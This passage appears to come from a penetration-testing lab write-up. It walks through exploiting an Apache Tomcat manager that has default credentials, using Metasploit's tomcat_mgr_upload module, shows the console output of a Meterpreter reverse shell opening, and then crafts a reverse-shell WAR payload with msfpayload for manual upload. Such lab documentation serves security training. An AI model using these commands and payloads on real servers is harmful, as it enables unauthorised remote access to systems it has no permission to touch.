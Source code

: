 After running the above exploit, I can log into the management page and see the WAR is successfully being uploaded by Metasploit, and that the module is active and running.

Can configure the correct path to the Tomcat manager (which is /manager).

(Note: many admins will disable these Tomcat modules or change the name of directories.)


### Run the Exploit (Worked)

I set this aside for a day, and found another workaround (covered below). But then, later, the exploit worked as intended.
```
msf exploit(tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_upload) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_upload) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf exploit(tomcat_mgr_upload) > set RPORT 8180
RPORT => 8180
msf exploit(tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.0.0.5:4444
[*] 10.0.0.27:8180 - Retrieving session ID and CSRF token...
[*] 10.0.0.27:8180 - Uploading and deploying cjMiuUTZpif5w0UB5FgrZY...
[*] 10.0.0.27:8180 - Executing cjMiuUTZpif5w0UB5FgrZY...
[*] 10.0.0.27:8180 - Undeploying cjMiuUTZpif5w0UB5FgrZY ...
[*] Sending stage (45741 bytes) to 10.0.0.27
[*] Meterpreter session 1 opened (10.0.0.5:4444 -> 10.0.0.27:50621) at 2016-03-30 19:33:50 -0700

meterpreter >
```
### Houston, We Have A Meterpreter Shell

Now we have a meterpreter shell! Over and on to Meterpreter.
Uploading Java Executable Manually

For some reason, the metasploit automated payload deployment had some problems. However, we can still exploit this server manually.

The management web interface gives us a place to upload WAR files, and a way to execute them manually.

### Tomcat upload.png

We can use Metasploit to craft a WAR file with the payload, then manually upload and execute it.
### Craft WAR Payload

http://securitypadawan.blogspot.com/2011/11/attacking-metasploitable-tomcat-this-is.html

```
msfpayload linux/x86/shell_reverse_tcp LHOST=10.0.0.25 LPORT=4444 W > runme.war
```
Now we upload the runme.war file, and set it running on the Tomcat server:
```
Tomcat runme upload.png
```
Note that this does NOT execute the payload yet!!!

